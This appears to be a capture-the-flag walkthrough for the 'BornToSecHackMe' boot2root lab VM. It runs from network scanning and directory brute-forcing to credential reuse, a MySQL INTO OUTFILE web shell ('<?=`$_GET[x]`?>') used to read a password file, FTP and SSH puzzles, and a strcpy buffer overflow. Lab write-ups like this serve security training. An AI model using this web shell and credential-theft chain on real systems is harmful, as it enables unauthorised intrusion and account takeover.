 
### Step 1.
```bash
# List all the devices in the private network (replace by network ip address)
sudo nmap --unprivileged -sn 192.168.64.0/24
```

Once revealed, let's add ip address to the env variables.
```bash
export IP=192.168.64.6
```

<hr>

### Step 2.
```bash
# List all the opened ports for specified ip address (replace by device ip address)
sudo nmap $IP
# or even better
sudo nmap -T4 -A -v $IP
```

<details>
    <summary>Info about of opened ports</summary>

```bash
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
993/tcp open  ssl/imaps?
```

</details>

<details>
    <summary>More detailed info about of opened ports</summary>

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: SASL-IR IDLE listed have LITERAL+ capabilities ENABLE more post-login Pre-login LOGIN-REFERRALS OK LOGINDISABLEDA0001 IMAP4rev1 STARTTLS ID
|_ssl-date: 2022-10-08T19:41:46+00:00; 0s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=BornToSec
| Issuer: commonName=BornToSec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-10-08T00:19:46
| Not valid after:  2025-10-05T00:19:46
| MD5:   3f63 02ca 0bb1 e732 9987 6887 3623 86a3
|_SHA-1: eebc f8de 3422 dd63 5314 9d47 811f f6d1 8f77 c98d
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
993/tcp open  ssl/imaps?
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

<hr>

### Step 3.

For this step we'll use dirsearch - an advanced web path brute-forcer.

See [github page](https://github.com/maurosoria/dirsearch) to know installation steps and advanced usage.


```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning https server</summary>

```bash
[10:36:23] 403 -  241B  - /cgi-bin/
[10:36:28] 301 -  249B  - /forum  ->  https://192.168.64.6/forum/
[10:36:34] 301 -  252B  - /phpmyadmin  ->  https://192.168.64.6/phpmyadmin/
[10:36:34] 200 -    2KB - /forum/
[10:36:37] 403 -  240B  - /server-status/
[10:36:37] 403 -  240B  - /server-status
[10:36:41] 200 -    2KB - /phpmyadmin/index.php
[10:36:41] 200 -    2KB - /phpmyadmin/
[10:36:42] 301 -  251B  - /webmail  ->  https://192.168.64.6/webmail/
[10:36:42] 403 -  254B  - /webmail/src/configtest.php
```

</details>


```bash
python3 dirsearch.py -e php -u http://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning http server</summary>

```
[10:30:07] 403 -  242B  - /.ht_wsr.txt
[10:30:07] 403 -  242B  - /.htaccess.sample
[10:30:07] 403 -  241B  - /.htaccess.orig
[10:30:07] 403 -  242B  - /.htaccess.bak1
[10:30:07] 403 -  240B  - /.htaccessOLD
[10:30:07] 403 -  241B  - /.htaccessOLD2
[10:30:07] 403 -  240B  - /.htaccess.save
[10:30:07] 403 -  237B  - /.htm
[10:30:07] 403 -  241B  - /.htaccessBAK
[10:30:07] 403 -  241B  - /.htaccess_sc
[10:30:07] 403 -  243B  - /.htaccess_orig
[10:30:07] 403 -  245B  - /.htpasswd_test
[10:30:07] 403 -  237B  - /.html
[10:30:07] 403 -  241B  - /.htpasswds
[10:30:07] 403 -  243B  - /.htaccess_extra
[10:30:07] 403 -  241B  - /.httr-oauth
[10:30:18] 403 -  240B  - /cgi-bin/
[10:30:21] 403 -  245B  - /doc/html/index.html
[10:30:21] 403 -  247B  - /doc/en/changes.html
[10:30:21] 403 -  243B  - /doc/stable.version
[10:30:21] 403 -  237B  - /doc/
[10:30:21] 403 -  239B  - /doc/api/
[10:30:22] 301 -  247B  - /fonts  ->  http://192.168.64.6/fonts/
[10:30:22] 403 -  239B  - /forum/
[10:30:22] 403 -  242B  - /forum/admin/
[10:30:22] 403 -  238B  - /forum
[10:30:22] 403 -  247B  - /forum/phpmyadmin/
[10:30:23] 403 -  248B  - /forum/install/install.php
[10:30:32] 403 -  240B  - /server-status/
[10:30:32] 403 -  239B  - /server-status
```

</details>

<hr>

### Step 4.
Go to the `https://$IP/forum/` <br>
Look into log file named `Probleme login ?`: 
```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

From this output we can understand, that `lmezard` tried to connect to the server <br>
and accidentally (or not) typed password in the login field. Such a mistake!

Use this pair to login as a user on the forum, and get the mail from account page. <br>
Mail: `laurie@borntosec.net`

<hr>

### Step 5.
We use this credentials to login to another revealed service (webmail)

Go to the `https://$IP/webmail/` <br>
Login: `laurie@borntosec.net` <br>
Password: `!q\]Ej?*5K5cy*AJ` <br>

Check out the mail with `DB Access` subject and get another credentials.

<hr>

### Step 6.

Check login credentials for the DB.

Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

<hr>

### Step 7.

The next thing we'll do is trying to open a [webshell](https://en.wikipedia.org/wiki/Web_shell)

[11:11:23] 403 -  249B  - /forum/.ht_wsr.txt
[11:11:23] 403 -  246B  - /forum/.htaccess.save
[11:11:23] 403 -  248B  - /forum/.htaccess_orig
[11:11:23] 403 -  247B  - /forum/.htaccess.bak1
[11:11:23] 403 -  247B  - /forum/.htaccess.orig
[11:11:23] 403 -  248B  - /forum/.htaccess.sample
[11:11:23] 403 -  248B  - /forum/.htaccess_extra
[11:11:23] 403 -  247B  - /forum/.htaccessBAK
[11:11:23] 403 -  247B  - /forum/.htaccess_sc
[11:11:24] 403 -  247B  - /forum/.htaccessOLD2
[11:11:24] 403 -  246B  - /forum/.htaccessOLD
[11:11:24] 403 -  242B  - /forum/.htm
[11:11:24] 403 -  242B  - /forum/.html
[11:11:24] 403 -  247B  - /forum/.httr-oauth
[11:11:24] 403 -  247B  - /forum/.htpasswds
[11:11:24] 403 -  251B  - /forum/.htpasswd_test
[11:11:41] 403 -  245B  - /forum/backup/
[11:11:41] 403 -  257B  - /forum/backup/vendor/phpunit/phpunit/phpunit
[11:11:42] 403 -  243B  - /forum/backup
[11:11:47] 403 -  244B  - /forum/config
[11:11:48] 403 -  249B  - /forum/config/config.ini
[11:11:48] 403 -  252B  - /forum/config/AppData.config
[11:11:48] 403 -  245B  - /forum/config/
[11:11:48] 403 -  250B  - /forum/config/app.php
[11:11:48] 403 -  250B  - /forum/config/apc.php
[11:11:48] 403 -  254B  - /forum/config/database.yml
[11:11:48] 403 -  253B  - /forum/config/development/
[11:11:48] 403 -  251B  - /forum/config/app.yml
[11:11:48] 403 -  256B  - /forum/config/database.yml~
[11:11:48] 403 -  251B  - /forum/config/autoload/
[11:11:48] 403 -  266B  - /forum/config/initializers/secret_token.rb
[11:11:48] 403 -  260B  - /forum/config/database.yml.sqlite3
[11:11:48] 403 -  254B  - /forum/config/databases.yml
[11:11:48] 403 -  249B  - /forum/config/db.inc
[11:11:48] 403 -  258B  - /forum/config/database.yml.pgsql
[11:11:48] 403 -  251B  - /forum/config/aws.yml
[11:11:48] 403 -  252B  - /forum/config/master.key
[11:11:48] 403 -  254B  - /forum/config/monkdonate.ini
[11:11:48] 403 -  249B  - /forum/config/config.inc
[11:11:48] 403 -  258B  - /forum/config/banned_words.txt
[11:11:48] 403 -  253B  - /forum/config/producao.ini
[11:11:48] 403 -  257B  - /forum/config/monkcheckout.ini
[11:11:48] 403 -  249B  - /forum/config/xml/
[11:11:48] 403 -  252B  - /forum/config/routes.yml
[11:11:48] 403 -  253B  - /forum/config/monkid.ini
[11:11:48] 403 -  253B  - /forum/config/settings.inc
[11:11:48] 403 -  261B  - /forum/config/settings/production.yml
[11:11:48] 403 -  256B  - /forum/config/settings.ini.cfm
[11:11:48] 403 -  253B  - /forum/config/settings.ini
[11:11:48] 403 -  258B  - /forum/config/settings.local.yml
[11:11:48] 403 -  251B  - /forum/config/site.php

```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
<summary>Scan of /forum endpoint</summary>

```bash
[11:11:54] 301 -  254B  - /forum/images  ->  https://192.168.64.6/forum/images/
[11:11:54] 200 -  474B  - /forum/images/
[11:11:54] 301 -  255B  - /forum/includes  ->  https://192.168.64.6/forum/includes/
[11:11:54] 200 -  810B  - /forum/includes/

[11:11:55] 301 -  251B  - /forum/js  ->  https://192.168.64.6/forum/js/
[11:11:56] 200 -  519B  - /forum/js/
[11:11:56] 301 -  252B  - /forum/lang  ->  https://192.168.64.6/forum/lang/
[11:12:02] 301 -  254B  - /forum/modules  ->  https://192.168.64.6/forum/modules/
[11:12:02] 200 -  518B  - /forum/modules/

[11:12:14] 301 -  257B  - /forum/templates_c  ->  https://192.168.64.6/forum/templates_c/
[11:12:14] 200 -    1KB - /forum/templates_c/

[11:12:16] 301 -  253B  - /forum/themes  ->  https://192.168.64.6/forum/themes/
[11:12:16] 200 -  449B  - /forum/themes/
[11:12:17] 301 -  253B  - /forum/update  ->  https://192.168.64.6/forum/update/
```
</details>


### Step 8.

Create webshell file using MySQL
SELECT '<?=`$_GET[x]`?>' INTO OUTFILE '/var/www/forum/templates_c/wsh.php'

ftp password
https://192.168.64.6/forum/templates_c/wsh.php?x=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"

Install ftp client if not installed
lftp -u lmezard ftp://192.168.64.6

```bash
#inside ftp
ls
get fun
get README
```

file fun -> tar arch
mv fun fun.tar
tar -xf fun.tar -> ft_fun

```bash
#!/bin/bash

OUTPUT=output_pcap
FILES_FILE=files.txt

rm -f $FILES_FILE
rm -f $OUTPUT

find $1 -type f > $FILES_FILE

while IFS= read -r file
do
    cat $file >> $OUTPUT
done < $FILES_FILE
```

chmod +x run.sh
./run.sh ft_fun
cat output_pcap | grep main

for getme1-7
find file with function prototype, open it, look at the fileX number
find file with fileX + 1, open it, get value from the return value.

After checking all the function, you end up with the following:
```c
//file8char getme1() {      return 'I';
//file88char getme2() { 	return 'h';
//file518char getme3() {    return 'e';
//file472char getme4() {    return 'a';
//file444char getme5() {    return 'r';
//file435char getme6() {    return 't';
//file503char getme7() {    return 'p';
```

Assemble the password: Iheartpwnage

SHA256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.64.6

echo "Public speaking is very easy." >> instr
echo "1 2 6 24 120 720" >> instr
echo "1 b 214" >> instr
echo "9" >> instr
echo "opekmq" >> instr
echo "4 2 6 3 1 5" >> instr

cat instr | tr -d ' ' | tr -d '\n'

g   15  1111  o
i    0  0000  p   P   0
a    5  0101  u   U   e   E
n   11  1011  k   K   ;
t   13  1101  m   M
s    1  0001  q   Q   1   A

Password: Publicspeakingisveryeasy.126241207201b2149opekmq426135


user thor

[turtle printer](https://www.pythonsandbox.com/turtle)
MD5(SLASH) = 646da671ca01bb5d84dbb5fb2238dc8e

zaz -> exploit_me

decompile with ghidra

```c
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```
